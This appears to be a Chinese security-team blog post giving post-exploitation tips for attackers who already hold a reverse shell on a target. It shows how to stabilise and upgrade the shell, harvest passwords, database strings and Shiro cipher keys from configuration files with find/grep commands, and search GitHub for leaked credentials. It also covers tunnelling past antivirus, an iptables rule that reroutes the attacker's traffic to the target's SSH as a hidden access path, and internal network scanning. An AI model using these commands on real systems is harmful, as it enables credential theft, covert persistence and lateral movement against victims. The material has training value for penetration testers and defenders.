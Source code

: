 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/RHIoR6FPwkUvsR-bea8FgA)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMqXyOIeCdqM3p6cDcJajNxkXU9Xaoicb7cHysyiad3YELb0DeBibhEUbmA/640?wx_fmt=png)

本文由团队大佬 Cedr0ic 总结编写

**01**

**姿势⼀ - 反弹 shell 后如何保持会话不断**

⼀般弹回来⼀个 shell 后我们⾸先要确保 shell 不能掉，这⾥可以借⽤ screen 来保存会话

screen 

screen -ls

Screen -r 会话 id

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMUaL5o9CbTKKqfAQuOKr6pI8DtQDVVBYCoZxGXfnacTauBGpeLHTAVg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMIWbJ5Iicqb762hZs9qdrI6cfibmKygfuMmice1RR9pIuXqhV0CPqt3GBQ/640?wx_fmt=png)

**02**

**姿势⼆ - 如何将反弹 shell ⽣成交互式的 shell**

⼀般反弹回来的 shell 有很多缺陷

1\. ⼀些命令，⽐如 “su” 和“ssh”需要适当的终端才能运⾏

2\. 标准错误信息（STDERR）经常不会被显示出来

3\. 不能正确使⽤⽂本编辑器如 VIM

4\. 没有命令补全功能

5.“上” 按键没有历史纪录功能

6\. 没有任务管理功能

7\. Ctrl-C 会断

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMN0tq1lUrflSyWKqCA3VLoz1cyHhl5KMCEUXJhhQjVOAY7KsibWjCGgQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOME3TvXOrWHicBUAKbyDnIMbeR9fxsLOuYIFEhHExeicaxcqG7IYIGcakw/640?wx_fmt=png)

因此这⾥需要⽣成⼀个交互式 shell 以下⼏⾏命令可以完成操作。

```
python -c 'import pty; pty.spawn("/bin/bash")' //⽣成py半交互式shell ctrl+Z

stty raw -echo fg

reset
export SHELL=bash
export TERM=xterm256-color stty rows 38 columns 116
```

新的交互式 shell

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMx0icVthHYYeA2LWjSjIEAQJQ9UlreROSYI64T7VVzFzYk2LaG3QkjfQ/640?wx_fmt=png)

**03**

**姿势三 - 如何快速信息收集获取服务器⼝令**

⼀、⼝令获取

获得目标主机的权限后，通过查看网站的配置文件，获得口令信息

常⽤密码⽂件收集整理

```
find / -name \*.properties 2>/dev/null | grep WEB-INF
find / -name "\*.properties" | xargs egrep -i "user|pass|pwd|uname|login|db\_" find / -regex ".\*\\.properties\\|.\*\\.conf\\|.\*\\.config" | xargs grep -E "=jdbc:|pass="

find /webapp -regex ".\*\\.properties" -print 2>/dev/null | xargs grep -E "=jdbc:|rsync"

find / -regex ".\*\\.properties" -print  2>/dev/null
find / -regex ".\*\\.properties\\|.\*\\.conf\\|.\*\\.config\\|.\*\\.sh" | xargs grep -E "=jdbc:|pass=|passwd="
grep -r 'setCipherKey(Base64.decode(' /web路径
find / -regex ".\*\\.xml\\|.\*\\.properties\\|.\*\\.conf\\|.\*\\.config\\|.\*\\.jsp" | xargs grep -E "setCipherKey"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMyCpjPbWYlRX4WATs7ZalzE6j56TfOoQEPWVvBbUFly8CoSYLtiaov7g/640?wx_fmt=png)

⼆、github 搜密码技巧

xxx.com  filename:properties

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMVTQia57ib8Fu0MLBics4f7I8CRchqwkXryFfUgxbqBk6aiauU23sHKqkHg/640?wx_fmt=png)

**04**

**姿势四 - 隧道代理技术绕过⼤部分杀软**

服务器出⽹：https://github.com/ehang-io/nps（安装使⽤⽅法这⾥省略）

⽀持多种协议代理⽅式

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMSCflyliax3oATag3tVNudNx4BBP1K5C7uIOgS91oCNhOITv5hZjiaJDA/640?wx_fmt=png)

服务器不出⽹：使⽤端⼝复⽤技巧

iptables -t nat -I PREROUTING 1 -p tcp -s 攻击者的 IP --dport 80 -j DNAT -- to-destination 靶机的 IP:22

配置完成后，攻击者的 IP 连接靶机的 80 端⼝，可登录靶机的 SSH 服务；其它机器可正常访问靶机的 HTTP 服务；

攻击者的 IP 没法访问靶机的 HTTP 服务。

**05**

**姿势五 - 使⽤脚本对内⽹常⻅服务进⾏快速扫描**

扫描⼯具：只需要 python 环境不需要其他库

https://github.com/PINGXcpost/F-NAScan-PLUS

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMqfDWzSQqHEia1ib7wLbOx85joRDqdlicxeaicOuTFsVRJIiaSavOUj2pecA/640?wx_fmt=png)

对 F-NAScan-PLUS 扫描报告中单个服务进⾏提取

https://github.com/soxfmr/F-NAScan-Export

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMwKja5luRiaU3c11t2EibkzscWPHbPkwxpFxdbicxvw0icuSzI1rIVzQ3pA/640?wx_fmt=png)

重要提醒！  

团队现开了微信交流群（每日资源分享），团队语雀知识库（每日积累）及知识星球（小范围精华内容传播及问答），欢迎加入（微信群通过公众号按钮 “加入我们” 获取联系方式）：

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMIfRsqCgntOMs77KIUVGnMJKBZHkSUBB3cgYR0llpyr39VcHFWBy2hQ/640?wx_fmt=jpeg)

往期经典：

[《从入门到秃头之 PWN 蛇皮走位》](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247484643&idx=1&sn=a8effd61504fc574ee7089f9ce8440af&chksm=9b370cd7ac4085c102e5f3ee1bd1fcb6f61fc56559edef3e4eb33d934c499c541d56c87ae7cd&scene=21#wechat_redirect)  

[图形验证码绕过新姿势之深度学习与 burp 结合](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247484598&idx=1&sn=997f5329edb5ad2850e8e129da32f175&chksm=9b370c82ac4085941fe53b84ec5fa61961cbb4ef406ae2013773d6144a28a665be9f7e80a283&scene=21#wechat_redirect)[漏洞挖掘｜条件竞争在漏洞挖掘中的妙用](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247484441&idx=1&sn=2f24cfe9e648118a4e537c0446e98119&chksm=9b370c2dac40853bf285a7e3fcbb8d83cba2aa34e82d81346af29d38c2855269dbc094aaab1e&scene=21#wechat_redirect)

[MSF 下域内渗透](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247483757&idx=1&sn=b61cdd38f5ade560af07f9321176d58e&chksm=9b370959ac40804f7384f4484e2586be29969306bd3eef06b90767fa2363d57436bf1e180424&scene=21#wechat_redirect)  

[“最后” 的 Bypass CDN 查找网站真实 IP](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247483674&idx=1&sn=da83b8ed28783252a1798974f91ea8aa&chksm=9b37092eac40803805d2662f93d77ce88bdb5e18efeec9bc684dfdaa6daeb8d95cf6f92669db&scene=21#wechat_redirect)  

[HVV 前奏｜最新版 AWVS&Nessus 破解及批量脚本分享](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247484137&idx=2&sn=286c87de932713c7e0951e9633a9fda9&chksm=9b370addac4083cb868bed7429c420f7feb101abd69550cd8cc4645f31e18b29d5d7f93cb3f7&scene=21#wechat_redirect)  

[移动安全（一）|Android 设备 root 及神器 Xposed 框架安装](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247483763&idx=1&sn=413f469223f181f48f82a344ce1d9c06&chksm=9b370947ac4080514962fbe586ba525ddc9029ab02ed72ffc9aac458859ac428e9432bb76f6b&scene=21#wechat_redirect)  

[移动安全 - APP 渗透进阶之 AppCan 本地文件解密](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247484404&idx=1&sn=184cb740fcdcdccc6f41f81c9abbc008&chksm=9b370bc0ac4082d6ef87004b1ce7e7c5e4d618a8e4696021d805e90a31c6a32b23c4139c5b50&scene=21#wechat_redirect)  

[漏洞笔记 | 记一次与 XXE 漏洞的爱恨纠缠](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247483808&idx=1&sn=e49283ccb0de1a3b7ac89e9cdb6d0e2f&chksm=9b370994ac4080829721246426d4dee351a4b7bdc2ac737f1f5fe1eb1a69eeb8a1dcaeb50b13&scene=21#wechat_redirect)  

安

全

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMYtCDjiaB5dg0TXT5vL4ldibEiacDdz9EL4s83YH3k0UibCRDvw69eWoQdA/640?wx_fmt=jpeg)

**扫描二维码 ｜****关注我们**

微信号 : WhITECat\_007  ｜  名称：WhITECat 安全团队